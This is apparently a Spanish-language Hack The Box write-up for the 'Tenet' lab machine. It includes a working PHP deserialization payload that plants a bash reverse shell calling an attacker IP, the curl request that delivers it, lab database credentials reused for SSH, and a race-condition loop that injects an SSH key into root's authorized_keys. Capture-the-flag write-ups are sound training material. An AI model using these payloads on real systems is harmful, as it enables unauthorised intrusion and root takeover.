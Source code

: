 ```yaml
---
layout: post
title:  "⚠HTB⚠ Tenet"
date:   2021-06-12 5:35:00 +0200
last_modified_at: 2021-06-12 5:35:00 +0200
toc:  true
tags: [ctf, linux, hackthebox, Writeup, deserializacion]
categories: Hackthebox
---
```


{: .message }

Es una excelente maquina para practicas la deserializacion en PHP

## Enumeración 
### Nmap
* 22/tcp OpenSSH 7.6p1
* 80/tcp Apache httpd 2.4.29

```

```bash
nmap -sC -sV -p22,80 10.10.10.223 -oN Scan_port1                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-02 10:33 EDT
Nmap scan report for 10.10.10.223
Host is up (0.060s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.45 seconds
```

## Web Enumeration
Tips rapido de enumeracion siempre ver a que nos enfrentamos:
```bash
whatweb  10.10.10.223                                                             
http://10.10.10.223 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.223], Title[Apache2 Ubuntu Default Page: It works]
```

### Fuzz
* /users.txt
* /wordpress/wp-login.php

```bash
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10848

Target: http://10.10.10.223/

[18:55:50] Starting: 
[18:58:30] 200 -    7B  - /users.txt
[18:58:36] 200 -    6KB - /wordpress/wp-login.php
```

### Tenet Wordpress
![](/images_blog/img_tenet/Pastedimage20210502200252.png)
![Pastedimage20210502200252](https://user-images.githubusercontent.com/76759292/127757805-5d1395c6-eae9-4dfd-85c1-0e482dd3f039.png)


Subdominio:
* sator.tenet.htb

### Tenet.htb
![](/images_blog/img_tenet/Pastedimage20210502180600.png)
![Pastedimage20210502180600](https://user-images.githubusercontent.com/76759292/127757807-1ab06b16-8ec1-477a-b3e2-258c8507d8ad.png)


## Off topic
* /xmlrpc.php

Aunque no tiene que ver me parece interesante la manera de explotacion que tiene esto [aqui]((https://www.securityfocus.com/bid/14088/exploit))


## PHP deserialization

[Lee](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)

Aqui esta el otro:
* Sator.php.bak

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

Esto nos sirve para saber por donde debemos tirar, entonces viendo como se mueve todo me di cuenta de que podria ser deserializacion y me encontre con el blog que puse al principio.

Luego con la php interactive podemos crear lo que queremos que el programa nos haga:

```php
php -a           
Interactive mode enabled

php > class DatabaseExport {
php {   public $user_file = 'rce.php';
php {   public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.14.101/4444 0>&1\'"); ?>';
php {   }
php > 
php > print urlencode(serialize(new DatabaseExport));
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A7%3A%22rce.php%22%3Bs%3A4%3A%22data%22%3Bs%3A74%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.14.101%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

Para que esto funcione hacemos esto, vemos que utiliza  ```arepo```
```
$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);
```

Entonces la data serializada que generamos la colocamos aqui:
```
curl -i http://sator.tenet.htb/sator.php\?arepo\=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A7%3A%22rce.php%22%3Bs%3A4%3A%22data%22%3Bs%3A74%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.14.101%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

Luego visitamos ```http://sator.tenet.htb/rce.php``` 


## PrivEsc
```bash
/** MySQL database username */                                                                                         
define( 'DB_USER', 'neil' );                                                                                           
                                                                                                                       
/** MySQL database password */                                                                                         
define( 'DB_PASSWORD', 'Opera2112' );     
```

Estas claves puedo entrar por ssh.

[mktemp](https://kbmwkaaxveg73o3q7ydl7zxf2a-adv7ofecxzh2qqi-superuser-com.translate.goog/questions/834277/what-should-i-worry-about-when-using-mktemp-dry-run) vemos que podemos ejecutar un script como root lo analizo y me llama esta parte:
```bash
addKey() {
        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)

        (umask 110; touch $tmpName)

        /bin/echo $key >>$tmpName

        checkFile $tmpName

        /bin/cat $tmpName >>/root/.ssh/authorized_keys

        /bin/rm $tmpName
}
```

Si nos fijamos en la parte del mktemp -u podemos ver que el script escribe la clave publica que se encuentra en la variable key la copia en un archivo

```bash
while true; do echo "ssh-rsa XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" | tee /tmp/ssh* > /dev/null; done
```

Conjuntamente ejecutamos el script varias veces y listo.

MACHINE PWNED!!!!
